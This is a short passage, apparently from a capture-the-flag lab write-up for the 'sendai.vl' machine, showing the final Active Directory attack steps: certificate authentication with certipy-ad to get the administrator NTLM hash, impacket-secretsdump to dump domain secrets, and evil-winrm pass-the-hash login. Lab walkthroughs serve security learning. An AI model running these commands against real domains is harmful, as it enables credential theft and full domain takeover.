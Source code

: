 Now let’ authenticate and retrieve the administrator NTLM hash

```bash
certipy-ad auth -pfx administrator.pfx
```

![image.png](../images/sendai%2032.png)

Now let’s go and dump all the domain secrets

```bash
impacket-secretsdump sendai.vl/'administrator':''@10.10.109.249 -dc-ip 10.10.109.249 -hashes :cfb106feec8b89a3d98e14dcbe8d087a
```

![image.png](../images/sendai%2033.png)

Now let’s login using the administrator hash

```bash
evil-winrm -i sendai.vl -u 'administrator' -H 'cfb106feec8b89a3d98e14dcbe8d087a'
```
